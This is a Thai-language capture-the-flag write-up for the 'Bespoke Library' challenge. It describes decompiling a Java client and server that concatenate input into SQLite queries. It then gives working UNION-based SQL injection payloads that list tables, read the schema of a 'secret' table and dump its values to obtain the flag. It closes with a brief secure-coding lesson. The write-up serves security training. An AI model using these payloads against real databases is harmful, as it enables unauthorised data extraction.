






## ข้อ 1: Bespoke Library

> 🏆 **Challenge**:   
> 💪 **Difficulty**:  🟢 EASY  
> 🎯 **Category**: Web Application Security



โจทย์นี้เริ่มต้นด้วยการได้รับโปรแกรมที่เขียนด้วย **Java** เราต้องวิเคราะห์และหาช่องโหว่ในโครงสร้างโปรแกรม ทีมเราเลือกใช้ **JADX-GUI** ในการแกะโค้ดกลับไปสู่รูปแบบที่อ่านได้ง่าย  




---

### การวิเคราะห์โจทย์  
เมื่อทำการ Reverse Code เราพบไฟล์สำคัญ 2 ไฟล์ ได้แก่:  
1. **Client Class**  
2. **Server Class**

#### **Server Class**  
Server Class มีการรับ Input และแยกค่า Parameter ด้วยเครื่องหมาย `:` ซึ่งประกอบไปด้วย:
- **Parameter ตัวแรก**: ใช้ระบุ Method ที่จะถูกเรียก
  - หากส่งค่า `BOOKS` จะเรียก Method `queryBooks`
  - หากส่งค่า `REVIEWS` จะเรียก Method `queryReviews`

- **Parameter ตัวที่สอง**: ใช้เป็นเงื่อนไขสำหรับคำสั่ง Query

จุดที่น่าสนใจคือ **ทั้งสอง Method (`queryBooks` และ `queryReviews`) มีช่องโหว่ SQL Injection!**  
เหตุผลคือทั้งสอง Method ใช้การประกอบ String (Concatenation) ในการสร้างคำสั่ง Query โดยไม่มีการป้องกัน




#### ฐานข้อมูล SQLite  
ฐานข้อมูลที่ใช้ในโปรแกรมเชื่อมต่อผ่าน `jdbc:sqlite:library.db`  
ซึ่งเป็นฐานข้อมูล **SQLite** ขนาดเล็ก แต่สะดวกในการจัดการ และภายใน code มีการ initializeDatabase ให้เห็นข้อมูลเบื้องต้นของตาราง books และ reviews


---

### ขั้นตอนการทดสอบและแก้โจทย์  
โจทย์นี้ต้องทดสอบ SQL Injection เพื่อดึงข้อมูลออกมาจากฐานข้อมูล โดยเราเริ่มต้นการโจมตีผ่าน Method `queryReviews` ดังนี้:


#### 1. **ทดสอบ SQL Injection Union**  
   ใช้คำสั่ง:
   ```sql
   REVIEWS:0 union select 1 --
   ```
   **ผลลัพธ์:** คำสั่งนี้ประสบความสำเร็จในการหลอกเซิร์ฟเวอร์ ทำให้เราสามารถตรวจสอบโครงสร้างฐานข้อมูลต่อได้  

---

#### 2. **ค้นหาชื่อ Table ในฐานข้อมูล**  
   เพื่อค้นหา Table ทั้งหมดที่มีอยู่ในฐานข้อมูล เราใช้คำสั่ง:
   ```sql
   REVIEWS:0 union select group_concat(tbl_name) 
   from sqlite_master 
   where type='table' and tbl_name not like 'sqlite_%' --
   ```
   **ผลลัพธ์:**  
   ```
   books, reviews, secret
   ```
   Table ชื่อ **secret** ดูน่าสนใจและน่าจะเก็บข้อมูลสำคัญ!  

---

#### 3. **ตรวจสอบโครงสร้าง Table 'secret'**  
   ใช้คำสั่ง:
   ```sql
   REVIEWS:0 union select sql 
   from sqlite_master 
   where type!='meta' and sql not null and name ='secret' --
   ```
   **ผลลัพธ์:**  
   ```sql
   CREATE TABLE secret (
     title TEXT NOT NULL, 
     value TEXT NOT NULL
   )
   ```
   Table นี้มี 2 Field คือ `title` และ `value` ซึ่ง `value` อาจเก็บ Flag ไว้  

---

#### 4. **ดึงข้อมูลใน Field 'value' จาก Table 'secret'**  
   ใช้คำสั่ง:
   ```sql
   REVIEWS:0 union select group_concat(value) from secret --
   ```
   **ผลลัพธ์:** เราได้รับข้อมูลจาก Field `value` ซึ่งเป็น **Flag** สำหรับโจทย์ข้อนี้! 🎉  

---

### ✅ บทสรุปจากโจทย์นี้  
- การใช้งาน SQL โดยไม่มีการตรวจสอบ Input อย่างเหมาะสม (เช่น การ Concatenation แบบตรง ๆ) เปิดโอกาสให้เกิด **SQL Injection**  
- ฐานข้อมูล SQLite แม้จะเล็ก แต่หากมีการเก็บข้อมูลที่สำคัญ ต้องปกป้อง Connection String และคำสั่ง Query ให้ดี  

---
###### #SECPlayground   #SECPlaygroundBloodyXMas2024 

<a href="./"><<กลับหน้าหลัก</a>